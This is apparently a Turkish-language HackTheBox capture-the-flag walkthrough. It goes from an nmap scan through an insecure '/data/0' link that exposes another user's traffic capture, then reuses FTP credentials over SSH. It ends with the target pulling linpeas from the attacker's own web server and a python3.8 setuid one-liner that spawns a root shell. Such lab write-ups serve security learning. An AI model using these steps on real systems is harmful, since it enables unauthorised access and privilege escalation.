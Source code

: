 ## 0️⃣ Makineye Bağlanmak
Hackthebox'ta bir makineye bağlanmak için öncelikle openvpn dosyası indirip buna bağlantı sağlamalıyız.  
- 🌐 Connect to HTB butonuna bas  
- 🖥️ Machines ve ardından OpenVPN seç  
- 🌍 EU ve boş bir EU serverı seçtikten sonra TCP protokolünü seç ve dosyayı indir  
- 💻 Terminalden:  
```bash
openvpn <vpndosyasi>
```  
- Ardından CTF sayfasındaki "join machine" butonuna basarak hedef makineyi çalıştır ve hedef ip'yi al  
- ✅ Böylece siber saldırıya hazırız  

---

## 1️⃣ Pasif Bilgi Toplamak
```bash
nmap -Pn -sC -sV -O -T4 -e <interface> -oN scan.txt <target_ip>
```
- 📡 Öncelikle hedef ip'ye ping atılarak bağlantının sağlıklı olarak sağlanıp sağlanmadığı kontrol edilir  
- 🔧 -e interface kısmında interface olarak openvpn ile bağlantı sağlayan arayüz girilmelidir (ifconfig ile kontrol edilebilir)  
- 📊 Nmap sonuçları incelendiğinde 21(FTP),22(SSH) ve 80(HTTP) portlarının açık olduğu bilgisine ulaşılır  
- ✅ İlk görev tamamlanır  

---

## 2️⃣ Aktif Bilgi Toplamak
- 🌐 80 yani HTTP portunun açık olması bu web sitesini ziyaret edebileceğimiz anlamına gelir. Tarayıcıya `HTTP://<hedef_ip>` yazılarak siteye ulaşılır  
- 🔎 2.görevde "security snapshot" ipucusu belirtiliyor. Web sitesinde ilgili sekmeye gidilir ve ikinci görevde istenen bilgi edinilir  
- 🗂️ Linkte `/data/1` yazdığı görülür ve ilgili sitede bir kullanıcının web trafiğine dair paket bilgileri görülür  
- 🔄 Numara değiştirilmeye çalışılır ve `/data/0` yazıldığında yoğun web trafiği olan başka bir kullanıcıya ulaşılır  
- 💾 Web trafiği yoğun olan 0 kullanıcısının web trafiği "download" butonuna basılarak indirilir  

---

## 3️⃣ Analiz ve Hacklemek
- 📂 İnen dosyaya çift tıklanarak wireshark açılır ve paketler incelenir  
- 📝 FTP protokolü ile iletilen paketlerde kullanıcı adı ve şifrenin açıkça yazdığı görülür  
- 🔑 Makineye bağlanmak için ssh protokolüne ihtiyaç duyarız. FTP şifresi ile SSH şifresinin aynı olabileceği ihtimalini deneriz:  
```bash
ssh nathan@<hedef_ip>
password: <ele geçirilen ftp parolası>
```  
- ✅ Sisteme erişim başarıyla sağlanır  
- 📄 `ls` çalıştırılarak bir txt dosyası olduğu görülür, `cat <dosya>` ile okunarak user flag'i ele geçirilir  
- 🎯 5 ve 6.görevler tamamlanır ve ilk flag başarıyla elde edilir  

---

## 4️⃣ Yetki Yükseltmek
- 🛡️ Root flag'ini ele geçirmek için hedef makinede root olmalıyız ancak elimizde root şifresi yok  
- 🔍 Linpeas modülünü kendi bilgisayarımıza indir:  
```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```  
- 🖥️ Dosyanın bulunduğu klasörde sunucu aç:  
```bash
python3 -m http.server 8000
```  
- 🏹 Hedef makinede linpeas’ı indir:  
```bash
wget http://<senin_ip>:8000/linpeas.sh
```  
- ⏹️ Sunucuyu kapat: `CTRL+C`  
- ⚡ LinPEAS çalıştır:  
```bash
sh linpeas.sh
```  
- 🟡 Raporu incele, anlamlı bulguları kontrol et → `/usr/bin/python3.8` yolunu bul  
- 💻 Exploit çalıştır:  
```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```  
- 🔑 Root olduktan sonra root klasöründen txt dosyasını aç ve flagi al ✅  

---